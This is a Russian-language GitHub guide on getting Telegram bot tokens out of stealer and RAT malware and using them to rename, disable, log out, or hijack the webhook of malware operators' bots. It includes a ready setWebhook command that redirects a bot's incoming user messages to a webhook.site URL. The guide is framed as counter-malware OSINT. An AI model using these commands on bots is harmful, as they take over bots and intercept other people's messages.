


# Токены - OSINT, деактивация, перехват входящих данных
## by [@Hidlow](https://t.me/hidlow)
[начало](#так-куда-же-утекают-логи) | [api-методы](#все-доступные-методы) | [перехват](#mitm-перехват)

## Как получают чужие токены?
**На просторах telegram/discord каналов существуют те, которые распространяют свое ПО в виде `читов`, `взломок` или что сейчас популярно - `скрипты для деанона/сноса`.**  
**Зачастую в них может быть вшито какое-нибудь `вредоносное ПО`, начиная со `стиллеров` и заканчивая `ратками`.**

***

## Так куда же утекают логи?
**Зачастую самый быстрый и легкий способ - `Telegram-боты` из-за своей доступности и в легком освоении.**  

***

## Как получать токены от ботов?
**`Token` - это уникальный идентификатор (строка), необходимый для аутентификации бота в `Telegram`.**  
**Для получения токена вам потребуется выполнить `дешифровку` кода вредоноса (Для каждого ЯП `свои методы`)**  

***

## Что делать с токеном?
**Как только `токен` оказывается у вас, вы получаете практически `полный контроль` над функционалом бота**  
**Чтобы управлять ботом, вам понадобится отправлять http-ссылки к эндпоинтам Telegram Bot API:**

``https://api.telegram.org/bot<TOKEN>/method``

### Все доступные методы

**``https://api.telegram.org/bot<TOKEN>/getWebhookInfo`` - информация о том, привязан ли бот к какому-то серверу и куда он пересылает все сообщения,
которые ему пишут пользователи. Пример: [click](assets/wbinfo.png)**

**``https://api.telegram.org/bot<TOKEN>/setWebhook?url=`` - привязаывает вебхуки бота к вашему сайту.  
Чтобы бот перестал отвечать на запросы, можно установить в качестве вебхука сторонний URL (например, [https://google.com](https://google.com)**

**``https://api.telegram.org/bot<TOKEN>/setMyName?name=`` - позволяет установить любое имя боту**

**``https://api.telegram.org/bot/setMyDescription?description=`` - позволяет установить описание "о боте", которое появляется когда вы открываете чат с ботом (не путайте с описанием в профиле бота)**

**``https://api.telegram.org/bot/setMyShortDescription?short_description=`` - позволяет установить описание в профиле бота**

**``https://api.telegram.org/bot/getMyCommands`` - позволяет получить список комманд**

**``https://api.telegram.org/bot/getMe`` - информация о боте. Пример: [click](assets/getme.png)**

**``https://api.telegram.org/bot/logOut`` - полностью закрывает текущую сессию бота на серверах Telegram на 10-15 минут.**

***

## MITM-перехват
#### Предупреждение: вы сможете перехватывать только входящие в бота данные от других людей.

**Что такое MITM (Man-in-the-Middle)? - то вид кибератаки, при которой атакующий тайно встраивается в канал связи между двумя сторонами**
**Что нам это даст?**



**Заходим на сайт [webhook.site](https://webhook.site/), после чего вам нужно будет скопировать эту ссылку:**



**Копируем ее, затем `подменяем` вебхук Telegram-бота на скопированную ссылку:**  
```
https://api.telegram.org/bot<TOKEN>/setWebhook?url=https://webhook.site/ваша-ссылка
```
**Если вы получили ответ в виде true:**
```
{
  "ok": true,
  "result": true,
  "description": "Webhook is already set"
}
```
**значит все прошло успешно, теперь все входящие сообщения будут приходить вам. `Перезагрузите страницу` и появится статистика.  
Если кто-то будет писать боту, то вам будут приходить `POST-уведомления` в правом углу, нажав на одну из них вы увидите всю [информацию](assets/mitm.png)**

[в начало](#токены---osint-деактивация-перехват-входящих-данных)
